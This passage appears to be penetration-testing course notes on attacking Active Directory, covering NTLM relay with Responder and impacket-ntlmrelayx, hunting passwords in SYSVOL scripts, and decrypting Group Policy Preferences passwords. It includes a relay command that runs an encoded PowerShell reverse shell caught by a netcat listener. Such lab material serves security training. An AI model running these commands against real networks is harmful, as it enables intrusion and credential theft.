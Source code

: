 First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

```
$ cat /etc/responder/Responder.conf | grep 'SMB ='
```

```bash
$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <revshell> '

$ nc -lvnp 9001
```

* * *

## Low Hanging Fruits
### ZeroLogon


### Credentials in SMB Shares and SYSVOL Scripts
The SYSVOL share can be a treasure trove of data, especially in large organizations. We may find many different batch, VBScript, and PowerShell scripts within the scripts directory, which is readable by all authenticated users in the domain. It is worth digging around this directory to hunt for passwords stored in scripts. Sometimes we will find very old scripts containing since disabled accounts or old passwords, but from time to time, we will strike gold, so we should always dig through this directory. Here, we can see an interesting script named reset_local_admin_pass.vbs.

#### Discovering 
```
PS > ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

### Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.
- These files can contain an array of configuration data and defined passwords. The cpassword attribute value is AES-256 bit encrypted, but Microsoft published the AES private key on MSDN, which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

This was patched in 2014 MS14-025 Vulnerability in GPP could allow elevation of privilege, to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.
